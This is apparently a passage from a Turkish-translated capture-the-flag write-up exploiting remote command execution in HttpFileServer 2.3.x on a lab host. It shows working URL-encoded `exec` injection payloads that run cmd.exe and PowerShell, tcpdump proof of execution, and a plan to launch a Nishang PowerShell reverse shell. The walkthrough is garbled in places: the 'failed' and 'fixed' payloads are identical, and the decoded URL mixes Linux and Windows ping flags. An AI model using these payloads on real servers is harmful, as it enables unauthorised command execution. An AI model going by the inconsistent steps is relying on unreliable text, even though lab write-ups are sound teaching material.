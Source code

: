 ```
        print("Usage: python3 HttpFileServer_2.3.x_rce.py RHOST RPORT command")
        print(ex)
```

Python'da, f-string içinde {} (f' ' içinde yazıldığını unutmayın) değişkenleri temsil eder, bu nedenle {{ ve }} gerçek küme parantezlerini yazmak için nasıl kaçış yapıldığını gösterir. Yani bu, RCE elde etmek için /?search={.+exec|[url-encoded command].} şeklinde tek bir HTTP isteğidir.

```
http://10.10.10.8/?search=%00{.+exec|C%3A%5Cwindows%5Csystem32%5Ccmd.exe%20/c%20ping%2010.10.14.10.}
```

Or URL decoded:

```
http://10.10.10.8/?search=%00{.+exec|c:\windows\system32\cmd.exe+/c+ping+-c+1+10.10.14.10.}
```


### POC

Bir kavram kanıtı olarak, kendime ping atmayı denemek için bu URL'yi hazırladım:

```
http://10.10.10.8/?search=%00{.+exec|cmd.exe+/c+ping+/n+1+10.10.14.10.}
```

Eğer çalışıyorsa, hostumda tek bir ICMP paketi görmeliyim. Tcpdump'ı başlattım ve gönderdim ama hiçbir şey yok.

Genellikle, bu mevcut ortamda sistemin ping yolunu bulamamasıyla ilgili bir sorun olabilir. Bu yüzden komuttan önce `cmd /c` eklemeyi denedim:

```
http://10.10.10.8/?search=%00{.+exec|cmd.exe+/c+ping+/n+1+10.10.14.10.}
```

İşe yaradı (ilginç bir şekilde dört kez):

```
oxdf@parrot$ sudo tcpdump -i tun0 icmp and src 10.10.10.8
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
16:16:51.416240 IP 10.10.10.8 > 10.10.14.10: ICMP echo request, id 1, seq 117, length 40
16:16:51.416294 IP 10.10.10.8 > 10.10.14.10: ICMP echo request, id 1, seq 118, length 40
16:16:51.416309 IP 10.10.10.8 > 10.10.14.10: ICMP echo request, id 1, seq 119, length 40
16:16:51.418739 IP 10.10.10.8 > 10.10.14.10: ICMP echo request, id 1, seq 120, length 40
```

PowerShell ile de çalıştırabilirim:

```
http://10.10.10.8/?search=%00{.+exec|powershell.exe+/c+ping+-n+1+10.10.14.10.}
```

### Shell

Bu hostun yaşı ve kolay seviyede olması göz önüne alındığında, muhtemelen Defender / AMSI hakkında endişelenmeme gerek yok, bu yüzden [Nishang](https://github.com/samratashok/nishang)'dan bir PowerShell scripti alacağım. **Invoke-PowerShellTcpOneLine.ps1**'i kopyalayacağım, açıklamaları kaldıracağım ve IP ve port bilgilerini güncelleyeceğim.
